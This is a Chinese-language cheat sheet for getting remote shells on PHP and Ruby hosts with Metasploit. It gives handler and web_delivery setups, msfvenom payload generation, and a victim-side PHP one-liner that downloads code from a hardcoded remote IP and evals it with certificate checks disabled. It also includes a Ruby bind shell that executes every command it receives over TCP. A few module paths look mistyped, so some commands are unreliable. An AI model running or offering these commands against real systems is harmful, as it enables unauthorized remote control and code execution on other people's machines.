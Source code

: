     控制端执行：

    ```sh
    # 在root用户下进去msfconsole
    msfconsole
    # 在msfconsole下设置相应参数
    use exploit/multi/handler
    set payload /php/bind_php
    set lport 8888
    set rhost 被控端ip
    run
    ```

- web delivery 反弹shell

    ```sh
    use exploit/multi/script/web_delivery
    set target 1
    set payload php/meterpreter/reverse_tcp
    exploit –j

    # 被控端执行
    php -d allow_url_fopen=true -r "eval(file_get_contents('http://139.155.49.43:8080/RRfKpX', false, stream_context_create(['ssl'=>['verify_peer'=>false,'verify_peer_name'=>false]])));"
    ```

- msf 生成 payload

    ```sh
    msfvenom -l payload | grep "php" | awk '{print $1}'
    ```

## Ruby

控制端生成payload

```sh
msfvenom -p cmd/unix/bind_ruby lport=8080 -f raw
```

被控端运行payload

```sh
ruby -rsocket -e 'exit if fork;s=TCPServer.new("8888");while(c=s.accept);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end;end'
```

控制端

```sh
# 进入msf终端
msfconsole

use exploit/multi/web_delivery
handler -p cmd/unix/bind_ruby -H 被控端ip -P 8080
```
